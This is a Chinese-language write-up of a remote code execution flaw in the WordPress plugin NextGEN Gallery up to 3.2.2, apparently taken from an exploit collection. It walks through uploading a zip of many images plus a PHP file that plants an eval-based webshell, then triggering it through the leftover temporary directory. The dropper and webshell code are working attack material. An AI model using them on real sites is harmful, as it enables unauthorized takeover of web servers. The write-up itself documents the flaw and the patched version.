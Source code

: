 # WordPress Plugin - NextGEN Gallery <= 3.2.2 RCE

> 原文：[http://book.iwonder.run/0day/Wordpress/15.html](http://book.iwonder.run/0day/Wordpress/15.html)

## 一、漏洞简介

WordPress 插件 NextGEN Gallery <= 3.2.2 版本将上传的 zip 压缩包解压到/wp-content/uploads 目录下的临时目录，该临时目录具有显著特点：以 unpacked 开头。

当 zip 压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在 zip 压缩包中放置一个 php 文件，那么该 php 文件会被解压到临时目录造成 RCE 漏洞。

官方在 2019 年 6 月 4 日发布了 3.2.4 版本修复了漏洞。

## 二、漏洞影响

## 三、复现过程

### 第 1 步：制作 Zip 压缩包

我制作了一个包含 800 张图片和 1 个恶意 php 文件（abc233.php）的 zip 压缩包，图片都是几 KB 的小图片，恶意 php 文件的功能是往上级目录写入 webshell，abc233.php 文件内容如下：

```
<?php
    file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
?> 
```

### 第 2 步：上传 zip 压缩包

点击“Add Gallery / Images”然后上传 zip 压缩包。

![image](img/e72605ec5e6476c8d10403268758221a.png)

### 第 3 步：查看临时目录

点击“import folder”，再点击“uploads”即可看到解压的临时目录。

![image](img/1cedee7f720d1c8ef84396f21953559a.png)

### 第 4 步：生成 webshell

访问临时目录下的 abc233.php 文件即可在/wp-content/uploads 目录下生成 webshell。

```
http://0-sec.org/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php 
```

![image](img/ca6205865d7b1f1cc99149f4563e68fb.png)

![image](img/f208a441b8f354f17076910bf53c739d.png)


